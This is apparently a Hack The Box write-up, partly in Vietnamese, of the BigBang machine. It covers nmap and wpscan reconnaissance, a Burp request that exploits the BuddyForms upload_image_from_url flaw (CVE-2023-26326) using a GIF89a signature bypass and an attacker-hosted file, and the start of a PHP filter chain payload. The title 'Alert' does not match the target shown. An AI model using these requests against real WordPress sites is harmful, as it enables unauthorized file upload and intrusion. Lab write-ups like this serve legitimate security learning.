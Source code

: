 <p align="center"><img src="image/image.png" /></p>

# Alert Hackthebox
## Nmap, wpscan, burpsuite, php filter chain,
### Nmap
```
nmap -sC -sV -Pn -oA nmap/output 10.10.11.52
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
# Nmap 7.95 scan initiated Mon May  5 14:11:58 2025 as: /usr/lib/nmap/nmap --privileged -p- --min-rate=1000 -sC -sV -Pn -oA nmap/output 10.10.11.52
Nmap scan report for 10.10.11.52
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d4:15:77:1e:82:2b:2f:f1:cc:96:c6:28:c1:86:6b:3f (ECDSA)
|_  256 6c:42:60:7b:ba:ba:67:24:0f:0c:ac:5d:be:92:0c:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://blog.bigbang.htb/
Service Info: Host: blog.bigbang.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  5 14:13:31 2025 -- 1 IP address (1 host up) scanned in 92.71 seconds

</pre>

### Mở trang tài khoản
<p align="center"><img src="image/image1.png" /></p>

### Check version bằng wpscan
```
wpscan -e ap --plugins-detection passive --url http://blog.bigbang.htb
```
Version buddy 2.7.7
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
[+] buddyforms
 | Location: http://blog.bigbang.htb/wp-content/plugins/buddyforms/
 | Last Updated: 2025-02-27T23:01:00.000Z
 | [!] The version is out of date, the latest version is 2.8.17
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.7.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.bigbang.htb/wp-content/plugins/buddyforms/readme.txt
</pre>
### Chạy lệnh POST trên burpsuite như sau theo lỗi cve [đây](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1552

action=upload_image_from_url&url=http:ip:port/test&id=1&accepted_files=image/gif

```
File `test` có nội dung sau `GIF89a` signature của GIF
```
GIF89aByPass
```
Sau khi chạy trả response có body
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-60.png","attachment_id":215}' | jq
{
  "status": "OK",
  "response": "http://blog.bigbang.htb/wp-content/uploads/2025/05/1-60.png",
  "attachment_id": 215
}
</pre>
<p align="center"><img src="image/image2.png" /></p>

### Dùng php filter chain để lọc signature trong Header thể  bypass filter để exploit [source](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
```
python3 php_filter_chain.py --chain GIF89a
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
php://filter/convert.iconv.UTF8 .... 4-decode/resource=php://temp
</pre>